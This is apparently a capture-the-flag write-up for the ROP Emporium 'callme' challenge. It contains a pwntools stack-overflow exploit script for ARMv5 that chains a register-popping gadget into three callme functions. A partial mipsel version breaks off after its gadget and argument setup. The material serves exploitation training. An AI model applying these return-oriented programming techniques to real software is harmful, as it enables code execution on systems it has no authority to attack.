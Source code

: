 # ARMv5 (32 bit) architecture

The main difference here is that we need to set the LR register before calling the function, so when the function return it return to the
address stored into the LR register.

In arm LR is link register used to hold the return address for a function call.

```python
from pwn import *
context.binary = elf = ELF('./callme_armv5')

''' GADGET
0x00010870      07c0bde8       pop {r0, r1, r2, lr, pc}
'''

pop_r0_r1_r2_lr_pc = 0x00010870

callme_one = elf.sym['callme_one']
callme_two = elf.sym['callme_two']
callme_three = elf.sym['callme_three']
pwnme = elf.symbols['pwnme']

offset = 36


arg = p32(0xdeadbeef)+p32(0xcafebabe)+p32(0xd00df00d)
payload1 = b'A'*offset + p32(pop_r0_r1_r2_lr_pc) + arg + p32(pwnme) + p32(callme_one)
payload2 = b'A'*offset + p32(pop_r0_r1_r2_lr_pc) + arg + p32(pwnme) + p32(callme_two)  
payload3 = b'A'*offset + p32(pop_r0_r1_r2_lr_pc) + arg + p32(pwnme) + p32(callme_three) 

p = elf.process()
#p = gdb.debug(elf.path)

p.recv()

p.sendline(payload1)
# cress ctrl_c to continue the exploit
p.interactive()
p.sendline(payload2)
# cress ctrl_c to continue the exploit
p.interactive()
p.sendline(payload3)

log.info(p.recvall())
```

# mipsel (32 bit) architecture


```python
from pwn import *
context.binary = elf = ELF('callme_mipsel')

'''
0x00400bb0: lw $a0, 0x10($sp); lw $a1, 0xc($sp); lw $a2, 8($sp); lw $t9, 4($sp); jalr $t9; nop; 
'''

u_g = 0x00400bb0
offset = 4*9

a0 = 0xdeadbeef
a1 = 0xcafebabe
a2 = 0xd00df00d 
```